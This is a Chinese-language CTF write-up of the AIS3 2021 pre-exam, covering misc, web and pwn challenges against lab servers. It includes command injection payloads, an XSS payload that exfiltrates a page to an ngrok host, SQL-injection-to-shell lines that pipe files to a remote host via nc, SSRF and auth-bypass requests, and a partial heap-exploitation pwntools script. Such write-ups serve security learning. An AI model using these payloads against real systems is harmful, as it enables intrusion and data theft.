# AIS3 2021 pre-eaxm Writeup

[toc]

打到第四名

# Misc

## Microcheese (solved)

由於出題者已經提示比較 patched 的版本 diff，可以發現是 choice 的問題。

diff 差異


有問題的程式碼片段，這裡檢查了各種 choice 之後錯誤的部分沒有進行 return，導致 ai 會執行下一步棋。濫用這點可以使 ai 不斷下棋。



而一開始先嘗試進行錯誤的 move 取 0 個，這樣 count 才有數值才不會 throw，之後就不斷輸入錯誤的數值，直到剩下一列為止，在進行 move 就可以贏得遊戲並且 getflag。

```
AIS3{5._e3_b5_6._a4_Bb4_7._Bd2_a5_8._axb5_Bxc3}
```

## [震撼彈] AIS3 官網疑遭駭！ (Solved)

這題主要和工具的使用有關，因為他給了 160 個 http request，如果肉眼排查會花費很多時間。可以透過 wireshark 分析 request 的工具可以發現有 `magic.ais3.org:8100` 並且有不同的東西。



點進去 Index.php 的封包可以看到



再來分析了 page=後面的發現是 base64，在 `Index.php` 當中是反轉的 base64

另外因為 dns 封包可以看到 quiz.ais3.org ，因此猜測在 quiz.ais3.org 的 ip 中，而之後設定 `Host:` 

```bash
curl 'http://10.153.11.126:8100/Index.php?page' -H "Host: magic.ais3.org:8100" -v
```

error 可以發現是 system



可以透過如下方式進行編碼

``` bash
curl 'http://10.153.11.126:8100/Index.php?page='$(echo 'ls' |base64|rev) -H "Host: magic.ais3.org:8100" -v
```

之後獲取 flag

``` bash
curl 'http://10.153.11.126:8100/Index.php?page='$(echo 'cat /flag_c603222fc7a23ee4ae2d59c8eb2ba84d' |base64|rev) -H "Host: magic.ais3.org:8100" -v	
```

```
AIS3{0h!Why_do_U_kn0w_this_sh3ll1!1l!}
```


## Cat Slayer ᶠᵃᵏᵉ | Nekogoroshi (solved)

複雜度太小了，直接手工一個個 byte 爆破就可以了，可以多開幾個視窗延遲比較少，可以用貼上的減少手動輸入。

```
2025830455298

AIS3{H1n4m1z4w4_Sh0k0gun}
```

## Blind (solved)

 可以呼叫任意 syscall ，程式碼在最後會輸出 flag ，不過 stdout 被關閉了(`close(1);`)所以看不到 

嘗試觸發 SIGSEGV 這裡表示還是有 stderr 的回饋。



也因此我們可以嘗試 dup2 stdout -> stderr 來獲得結果

```
Input: [rax] [rdi] [rsi] [rdx]
33 2 1 0
```

```  
AIS3{dupppppqqqqqub}
```

# web

## XSS (Solved)

一開始先找出有可能有 xss 注入點的位置，而在登入錯誤的時候，可以看到 URL 與彈跳訊息的內容有關，因此嘗試在這個部分注入。

由於該點會反射到 script 的部分，透過 `</script>` 強制閉合 javascript，並且 message 有限制長度，如下可以簡單測試 xss

```html
</script>
```

```
http://quiz.ais3.org:8003/?type=error&message=%3C/script%3E%3Cimg%20src/onerror=alert(1)%3E
```

當中需要注意 Content-Security-Policy 的設定與 message 的長度限制

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self' 'unsafe-inline';">
```

稍微構造了一下，繞過了大小限制，現在幾乎可以任意輸入程式碼，接下來就構造 `&` 之後的程式碼

```
http://quiz.ais3.org:8003/?type=info&message=%3C/script%3E%3Csvg%20onload=write(decodeURI(document.URL))%3E%3C/svg%3E&<script>alert()</script>
```

獲取關於 request 的更多訊息

```html
<iframe src="http://quiz.ais3.org:8003/getflag" id="aa" onload="location.href ='http://8.tcp.ngrok.io:13515'"
  ></iframe>
```

```
GET / HTTP/1.1
Host: 8.tcp.ngrok.io:13515
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://xss-me/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

這裡可以發現`Referer`來找到管理員從哪裡連到該頁面 ，可以知道要採用`http://xss-me/getflag`作為 iframe 的目標才成正常顯示，~~並且被 `Referer: http://xss-me/` 搞很久 = =~~

``` html
<iframe src="http://xss-me/getflag" id="aa" onload="location.href ='http://b4e94e2c9290.ngrok.io/'.concat('b2/').concat(btoa(document.getElementById('aa').contentDocument.body.innerHTML))"
  ></iframe>
```

```
AIS3{XSS_K!NG}
```

## Web Challenges Monitor (solved)

可以驗證類似路徑是否會有 LFI 的問題

http://quiz.ais3.org:8001/?module=./modules/api/../api

可以確定網頁為 php 

http://quiz.ais3.org:8001/index.php

而這裡可能發生了無窮 include，可以知道 module 後面會自動補上 post fix  `.php`

http://quiz.ais3.org:8001/?module=index

 LFI 可以直接用 filter 把原始碼洩漏出來，或者某些情況可以 include  webshell 進去，這裡先洩漏原始碼。

``` bash
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=modules/api
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=index
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=modules/home
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=config
```

可以看到 `index.php` 的確如猜想一樣

``` php
<?php
include ($_GET['module'] ?? "modules/home").".php";
```

而 `modules/home` 似乎沒什麼特別的

`modules/api` 的內容，可以看到 `SQLite3`，並且有可能 command injection ，當中為了繞過空白被去除可以採用`\t` 也就是 `%09`

``` php
<?php
header('Content-Type: application/json');

include "config.php";
$db = new SQLite3(SQLITE_DB_PATH);

if (isset($_GET['id'])) {
    $data = $db->querySingle("SELECT name, host, port FROM challenges WHERE id=${_GET['id']}", true);
    $host = str_replace(' ', '', $data['host']);
    $port = (int) $data['port'];
    $data['alive'] = strstr(shell_exec("timeout 1 nc -vz '$host' $port 2>&1"), "succeeded") !== FALSE;
    echo json_encode($data);
} else {
    $json_resp = [];
    $query_res = $db->query("SELECT * FROM challenges");
    while ($row = $query_res->fetchArray(SQLITE3_ASSOC)) $json_resp[] = $row;
    echo json_encode($json_resp);
}
```

Config.php

``` php
<?php
define("SQLITE_DB_PATH", "challenges.db");
define("I_AM_NOT_FLAG", base64_decode(str_rot13("nUE0pUZ6Yl95o3I0qF5vMF8jAmW0IGS0LJ1xZN==")));
```

http://quiz.ais3.org:8001/challenges.db 可以下載 db

思路大概是用 SQLi 從 id 構造，可以透過前面 db 輔助我們構造 union 比如下方，可以延遲 100 秒確定

```
SELECT name, host, port FROM challenges WHERE id = 0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(sleep%09100)'",8001;
```

傳入的方法如下，傳進去構造成上方的樣子

```
http://quiz.ais3.org:8001/?module=modules/api&id=注入點
http://quiz.ais3.org:8001/?module=modules/api&id=0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(sleep%09100)'",8001;
```

確定可行之後依序透過以下 payload 洩露資訊

```
0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(ls|nc%098.tcp.ngrok.io%0918403)'",8001;
0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(ls%09-al%09/|nc%098.tcp.ngrok.io%0918403)'",8001;
0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(cat%09/flag_81c015863174cd0c14034cc60767c7f5|nc%098.tcp.ngrok.io%0918403)'",8001;
```

flag

``` 
AIS3{o1d_skew1_w3b_tr1cks_co11ect10n_:D}
```

## HaaS (solved)

一開始看到 Method Not Allowed 先嘗試找出可用的 Method

```bash
curl 'http://quiz.ais3.org:7122/haas' -X OPTIONS -i
```

當中可以看到用 POST，不過用 POST 會產生 Only absolute URLs are supported。

之後找到網址 http://quiz.ais3.org:7122/ 可以發現 haas 可以看到這個 restful api 的用法，並且可以輸入任意網址或許可以構造 SSRF，當中 127.0.0.1 / localhost 受到阻擋， http://2130706433 同等 127.0.0.1，嘗試過後只能回傳狀態，之後檢查 request 可以發現有 status 這個參數，並且檢查 status 是否和要求的網頁相同，設定成 status=500 使不同，就可以顯示網頁內容。

``` bash
curl http://quiz.ais3.org:7122/haas -X POST --data "url=http://2130706433&status=500"
```

```
AIS3{V3rY_v3rY_V3ry_345Y_55rF}
```

分析 server 送出的 request 或許也可以找到其他突破點，不過這邊似乎沒有用到就是了。

```
GET / HTTP/1.1
Host: e3d9ee64ad0f.ngrok.io
User-Agent: node-fetch/1.0 (+https://github.com/bitinn/node-fetch)
Accept: */*
Accept-Encoding: gzip,deflate
```

## ⲩⲉⲧ ⲁⲛⲟⲧⲏⲉꞅ 𝓵ⲟ𝓰ⲓⲛ ⲣⲁ𝓰ⲉ (solved)

題目提供原始程式碼

http://quiz.ais3.org:8002/sauce

login 所可以控制的部分在於 data json 的位置 

### json 複寫

簡單測試可以發現第二次的被蓋寫

```python
>>> json.loads('{"a": "1"}')
{u'a': u'1'}
>>> json.loads('{"a": "1", "a": "2"}')
{u'a': u'2'}
```

由於程式碼只是簡單的使用 format 把參數插入進去，很容易構造如上面那樣的形式達成複寫。

``` python
@app.route("/login", methods=['POST'])
def login():
    data = '{"showflag": false, "username": "%s", "password": "%s"}' % (
        request.form["username"], request.form['password']
    )
    session['user_data'] = data
    return redirect("/")
```

### 繞過 valid_user()

由於我們需要登入不為 `guest` 的帳號才能 getflag，可以看到 `dict.get()` 如果找不到參數就會回傳 `None`，這裡可以發現我們可以構造 `NoneType`  來 bypass 這個檢查。

``` python
>>> type(users_db.get('dasdas'))
<type 'NoneType'>
>>> type(json.loads('{"a": "", "a": null}')['a'])
<type 'NoneType'>
```

### Payload

以上兩點完成之後，`showflag` 設定成 true 就可以顯示 flag。這兩行指令，第一次用於登入，第二次使用先前的 cookie 來檢視 flag。

``` bash
curl 'http://quiz.ais3.org:8002/login' --data  'username=&password=","password":null, "showflag": true, "a":"a'  -i
curl 'http://quiz.ais3.org:8002/' --cookie 'session=.eJyrViotTi2KT0ksSVSyUqqOUSrOyC9Py0lMj1GyUkhLzClO1VGIAavJS8xNBQnGKMUogcQKEouLy_OLUuBiKEJ5pTk5IFXIxpUUlYJNSwRywGStUi0AwVkpww.YKhsPw.Y3BkGf6j_x0SsvGGC2moq55XAsQ; HttpOnly; Path=/' -i
```

```
AIS3{/r/badUIbattles?!?!}
```

# pwn

由於這些 pwn 皆有 docker 配置檔案，可以在本機配置之後取出 libc 和 ld 進行測試與計算 offset。

## Gemini (solved)

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

這題可以兩次 del 發現會觸發 double free 檢查，或者產生 use after free 等等的可能



heap 的漏洞與不同 malloc 大小的 bin 相關，因此這裡可以看到新增 record 會 malloc 0x20，構造時可能需要注意這個大小。而使用者也可以自己控制 name 的大小，可以用來操控是否要放到 0x30 的 bin 中。



分析一下可以知道這個 struct



由於 free 之後，沒有清理 coor->name ，因此這裡之後會被當成 free chunk，會有一些敏感的指標可以洩漏 heap base 或 libc heap bin 等等



洩漏 libc 的地址必須先構造 chunk 在 unsort bin 當中，可以用大 chunk free 之後放入 unsort bin，之後透過 tele 把相關 libc 給 leak 出來，之後我們可以透過 offset 去算到 free hook 的位置。為了 malloc 一塊指定的地址，必須先填滿 tcache 到 fastbin。

似乎 fastbin 的 double free 的 check 會有點問題，導致 loop 產生，因此可以 malloc 一塊地址來設定任意 chunk 地址。

loop 前 0x555556d283f0



Free 之後產生 Loop ，可以看到 tcache 和 fastbin 多了兩個 free chunk ， 不過 `0x555556d283f0` 重複了

	

前面嘗試 free 使 fastbin 損壞蓋寫 chunk next ptr 指向 free hook 的位置，再把 tcache 取完之後就可以取得該 chunk。

最後可以從 tcache 取出該塊並且設定 free hook 的內容。下圖可以看到 chunk 明顯不在 heap 當中。




一開始想說採用 One gadget 搭配 malloc hook

```
one_gadget ./libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

不過 one gadget 在這似乎不是怎麼好用，r12 總不是 null。可以改用 free ，而 free 對應的 chunk 的 payload 的內容，可以編寫 `/bin/sh` 並且呼叫 `system()` 即可

為了利用 free hook ，在 malloc 後，盡可能 spray `/bin/sh` 進去，之後要 free 時候比較容易觸發。



成功 get shell



### exploit

``` python
#!/usr/bin/env python3
from pwn import *
import sys
import pwnlib.shellcraft
import pwnlib
import pickle

debug = 0

c = 0
pwn_file = "./chal"
lib_file = './libc-2.31.so'
elf = ELF(pwn_file)
libc = ELF(lib_file)

context.os='linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:


    ld_str = "./ld-2.31.so --library-path ./ {}".format(pwn_file)
    print(ld_str.split())
    c = process(ld_str.split(), env={'LD_PRELOAD': lib_file})

    elf_path = c.cwd + pwn_file.strip('.')
    lib_path = c.cwd + lib_file.strip('.')

    while not c.libs():
        sleep(1)

    print(c.libs())

    gdbcmd = '''
    set $elf={}
    set $lib={}
    set $freehook=$lib+0x1eeb20
    set $ptr_pool=$elf+0x4060
    '''.format(hex(c.libs()[elf_path]), hex(c.libs()[lib_path]))
    gdb.attach(c, gdbscript=gdbcmd)

else:
    c = remote('quiz.ais3.org', 5005)

def record_raw(x, y, name_len, name):
    c.sendlineafter(">", "1")
    c.sendlineafter("x:", str(x))
    c.sendlineafter("y:", str(y))

    # name
    c.sendlineafter("length:", str(name_len))
    c.sendafter("name:", name)


def record(x, y, name_len, name):
    record_raw(x, y, name_len, name + '\n')

def delMem(index):
    c.sendlineafter(">", "2")
    c.sendlineafter("index:", str(index))

def adjust(index, x, y):
    c.sendlineafter(">", "3")
    c.sendlineafter("index:", str(index))
    c.sendlineafter("x:", str(x))
    c.sendlineafter("y:", str(y))

def telescope(index):
    c.sendlineafter(">", "4")
    c.sendlineafter("index:", str(index))

def exitProgram():
    return
    c.sendlineafter(">", "5")

